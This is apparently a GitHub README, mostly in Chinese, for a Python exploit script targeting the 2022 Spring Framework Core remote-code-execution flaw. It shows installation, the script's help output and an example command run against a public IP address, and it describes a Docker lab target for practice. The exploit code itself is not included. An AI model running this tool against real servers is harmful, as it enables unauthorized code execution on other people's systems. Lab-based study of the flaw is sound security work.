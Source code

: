 # Spring Core RCE

> 影响范围：JDK>=9 的spring框架及衍生框架
>
> [文章指路](https://thehackernews.com/2022/03/unpatched-java-spring-framework-0-day.html)
>
> **脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation

~~~shell
pip3 install -r requirements.txt
~~~

## 2.Usage

```shell
$ python3 spring-core-rce.py -h

 .----..-.-. .---. .-..-. .-..----.     .----. .---. .---. .----.     .---. .----..----.
{ {__-`| } }}} }}_}{ ||  \{ || |--' ___ | }`-'/ {-. \} }}_}} |__} ___ } }}_}| }`-'} |__}
.-._} }| |-' | } \ | }| }\  {| }-`}{___}| },-.\ '-} /| } \ } '__}{___}| } \ | },-.} '__}
`----' `-'   `-'-' `-'`-' `-'`----'     `----' `---' `-'-' `----'     `-'-' `----'`----'


                                                 Spring framework Core 0day RCE
                                                                  By:K3rwin
usage: spring-core-rce.py [-h] [-u URL] [-s SYSTEM]

Spring framework Core 0day RCE 帮助指南

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定url
  -s SYSTEM, --system SYSTEM
                        指定目标主机操作系统,默认linux,参数为win/linux
```

## 3.example

>使用 -u指定url，-s指定操作系统  参数为：linux 或者 win，默认为linux

```shell
python3 spring-core-rce.py -u "http://1.117.155.217:8080/" -s "linux"
```

![image-20220331203209702](README.assets/image-20220331203209702.png)

![image-20220331203858753](README.assets/image-20220331203858753.png)

## 4.Target

### ①.本地搭建docker靶场:

`docker pull vulfocus/spring-core-rce-2022-03-29:latest`

`docker run -d -p 8080:8080 --name spring-core-rce -it vulfocus/spring-core-rce-2022-03-29`

### ②.[在线靶场](http://vulfocus.io/#/dashboard)
